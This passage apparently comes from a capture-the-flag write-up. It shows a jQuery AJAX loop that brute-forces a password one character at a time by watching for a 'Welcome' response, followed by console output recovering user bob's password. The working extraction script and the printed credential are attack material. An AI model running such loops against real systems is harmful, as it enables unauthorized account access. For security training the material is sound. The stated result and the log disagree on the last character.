 ```
                if (successAlready) return;
                if (result.indexOf("Welcome") !=-1) {
                    console.log("Success", result, progress+ch);
                    progress += ch
                    successAlready = true;
                }
            },
            error: function(xhr, resp, text) {
                // console.log(xhr, resp, text);
                console.log(xhr.responseText); // added later
            }
        });
    }

    // wait until all ajax requests are finished before continuing
    // bruteforce of next character
    $(document).ajaxStop(function () {
        console.log("Continue next:", progress);
        execute();
    });
    execute();

After running for a while, we get a fixed result of `lVeYMg4U4\$@`

    * Success Welcome: bob! l
    * Continue next: l

    * Success Welcome: bob! lV
    * Continue next: lV

    * Success Welcome: bob! lVe
    * Continue next: lVe

    * Success Welcome: bob! lVeY
    * Continue next: lVeY

    * Success Welcome: bob! lVeYM
    * Continue next: lVeYM

    * Success Welcome: bob! lVeYMg
    * Continue next: lVeYMg

    * Success Welcome: bob! lVeYMg4
    * Continue next: lVeYMg4

    * Success Welcome: bob! lVeYMg4U
    * Continue next: lVeYMg4U

    * Success Welcome: bob! lVeYMg4U4
    * Continue next: lVeYMg4U4

    * Success Welcome: bob! lVeYMg4U4\$
    * Continue next: lVeYMg4U4\$

    * Success Welcome: bob! lVeYMg4U4\$@
    * Continue next: lVeYMg4U4\$@

    * Success Welcome: bob! lVeYMg4U4\$@L
    * Continue next: lVeYMg4U4\$@L
    * Continue next: lVeYMg4U4\$@L
    * Continue next: lVeYMg4U4\$@L
    * Continue next: lVeYMg4U4\$@L

```